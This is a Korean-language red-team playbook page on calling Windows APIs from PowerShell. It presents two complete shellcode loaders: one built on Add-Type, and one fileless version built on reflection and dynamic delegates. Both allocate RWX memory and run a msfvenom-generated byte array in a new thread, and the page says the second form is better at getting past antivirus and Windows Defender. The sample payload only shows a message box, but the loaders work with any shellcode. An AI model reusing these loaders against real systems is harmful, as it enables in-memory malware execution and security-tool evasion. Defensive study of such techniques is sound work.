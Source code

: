 # 윈도우 API 실행

파워쉘에서는 윈도우 API를 실행할 수 있는 총 세 가지 방법이 있다.&#x20;

* Add-Type&#x20;
* .NET 어셈블리가 사용하는 윈도우 API를 찾아 실행하는 방법&#x20;
* 윈도우 API의 메모리상 주소를 알아내고, 함수 포인터를 만든 뒤, 다이내믹 Assembly, Module, Type, Method 과 Delegate를 이용해 이 함수 포인터로 윈도우 API를 실행하는 방법&#x20;

이 페이지에서는 1번과 3번에 대해서 알아본다.&#x20;

### Add-Type&#x20;

Add-Type 은 마이크로소프트사에서 공식적으로 지원하는 파워쉘에서 윈도우 API를 사용하는 방법 중 하나다. 더 정확하게 말하자면 파워쉘에서 C# 클래스를 작성한 뒤 메모리상에서 컴파일 하고 실행하는 함수 중 하나다.&#x20;

먼저 PoC 쉘코드로 사용할 쉘코드를 msfvenom을 이용해 제작한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f ps1
```

다음은 파워쉘에서 윈도우 API를 이용해 MessageBox 쉘코드를 실행하는 PoC다.&#x20;

<details>

<summary>Invoke-Addtype.ps1</summary>

```powershell
$csharpCode = @"

using System;
using System.Runtime.InteropServices;

public class winAPIClass { 

    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $csharpCode

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0

# Page commit | reserve, RWX 
$pAlloc = [winAPIClass]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [winAPIClass]::CreateThread(0,0,$pAlloc,0,0,0)        
```

</details>

![](<../../.gitbook/assets/image (11) (1) (1).png>)

#### 대응 방안&#x20;

Add-Type이 실행될 때 C# 코드가 메모리상에서 컴파일 된다고 위에서 얘기했었다. 더 자세하게 얘기하자면 `csc.exe` 를 이용해 메모리상에서 C# 코드를 컴파일 하지만, 그 와중에 임시 파일을 디스크위에 작성한다.&#x20;

![](<../../.gitbook/assets/image (2) (2).png>)

![](<../../.gitbook/assets/image (6) (2).png>)

2022년도 기준 `Add-Type` 를 이용한 파워쉘에서의 C# 코드 및 윈도우 API 실행은 유명한 TTP라 왠만한 AV/EDR 솔루션들 및 윈도우 디펜더는 이를 기본적으로 막는다.&#x20;

### Dynamic Method&#x20;

다음 코드들은 다음 두 개의 레퍼런스 - [Matt Graeber](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/), [mez0](https://mez0.cc/posts/cobaltstrike-powershell-exec/), [DepthSecurity](https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs) 라는 분들의 코드 참고했다. 먼저 `LookUpFunction` 이라는 함수로 현 .NET AppDomain에 있는 어셈블리들 중 `System.dll` 닷넷 어셈블리를 찾고, 그 중 `UnsafeNativeMethod` 를 찾는다. 그 뒤, `GetMethods()` 함수를 통해 닷넷 어셈블리에서 `GetProcAddress` 와 `GetModuleHandle` 윈도우API를 찾는다. 그 뒤, 이들을 이용해 파라미터로 받아온 ModuleName과 FunctionName을 찾는다.&#x20;

```powershell
# Unmanaged DLL 이름과 winAPI함수 이름을 입력값으로 받고, 함수 포인터를 반환함. 
function LookUpFunc {
    Param($module, $funcName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}
```

&#x20;결국 `$fPointer = LookUpfunction Kernel32.dll VirtualAlloc` 과 같은 파워쉘 코드를 이용하면 `VirtualAlloc` 의 위치를 가르키는 함수 포인터를 생성할 수 있게 된다.&#x20;

함수 포인터가 있다고 해서 그것을 무작정 사용할 수는 없다. 함수 포인터가 가르키는 메모리는 어떻게 읽어야하는가? 몇개의 argument 가 있고, 어떤 타입의 argument 들이 있는가? 리턴하는 데이터 타입은? 에 대한 설명을 기반으로 함수 포인터를 실행해야 하는데, C#과 파워쉘에서는 이를 `Delegate` 을 통해서 해결한다.&#x20;

다음은 파워쉘에서 Delegate 을 만들고 그것을 기반으로 위에서 받아온 함수 포인터를 실행하는 코드다. 다이내믹 어셈블리, 모듈, 타입, 프로토타입, 매써드 등을 만든 뒤 DelegateType을 반환한다.&#x20;

```powershell
# 함수 시그니쳐와 반환값을 입력값으로 받고, DelegateType을 반환함. 
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}
```

이 `getDelegateType` 함수는 다음과 같이 쓴다.&#x20;

```powershell
$pVirtualAlloc = LookUpFunc "kernel32.dll" "VirtualAlloc" 
$dtVirtualAlloc = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($pVitualAlloc, $dtVirtualAlloc)
```

이를 기반으로 위 `Add-Type` 예시에서 만들었던 메시지 박스 쉘코드를 실행하는 파워쉘 페이로드를 만들면 다음과 같다.&#x20;

```powershell
# All credit to https://mez0.cc/posts/cobaltstrike-powershell-exec/
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

# All credit to https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0
$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

위 Dynamic Method 방법의 경우 C# 이 컴파일이 되는 것이 아니기 때문에 디스크상의 임시 파일이 쓰여질 일도 없다. 따라서 기본적인 AV나 디펜더를 우회하는데 좀 더 유리하다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-2/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/" %}

{% embed url="https://mez0.cc/posts/cobaltstrike-powershell-exec/" %}

{% embed url="https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs" %}
